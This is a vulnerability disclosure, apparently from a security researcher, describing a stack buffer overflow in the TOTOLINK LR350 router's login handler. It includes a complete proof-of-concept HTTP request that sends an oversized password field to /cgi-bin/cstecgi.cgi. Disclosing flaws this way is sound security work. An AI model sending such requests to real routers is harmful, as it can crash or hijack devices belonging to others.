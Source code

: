# TOTOLINK LR350 V9.3.5u.6369_B20220309 Stack Overflow

### Product Information

Product: TOTOLINK LR350 Firmware Version: V9.3.5u.6369_B20220309 Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/231/ids/36.html)

### Analysis

`V7 ` retrieves the value from the ` password ` field input by the user and processes it in the ` urldecode ` function. The processed result is stored in the stack.

![image-20240508121257780](/totolink%20LR350/image-20240508121257780.png)

As shown in the two images below, in the function`urldecode` , the processed (`password`) is written to a buffer  located on the stack. **However, there is no validation to check if the `password` (`a1`) exceeds the length of the buffer (`a2`, `v3`).** Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.

![image-20240508121926199](/totolink%20LR350/image-20240508121926199.png)

![image-20240508121953884](/totolink%20LR350/image-20240508121953884.png)

### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.147.140
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 449
Origin: http://192.168.147.140
Connection: close
Referer: http://192.168.147.140/login.html

{"username":"admin","password":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","verify":"0","flag":"0","topicurl":"loginAuth"}
```

![image-20240508122545258](/totolink%20LR350/image-20240508122545258.png)
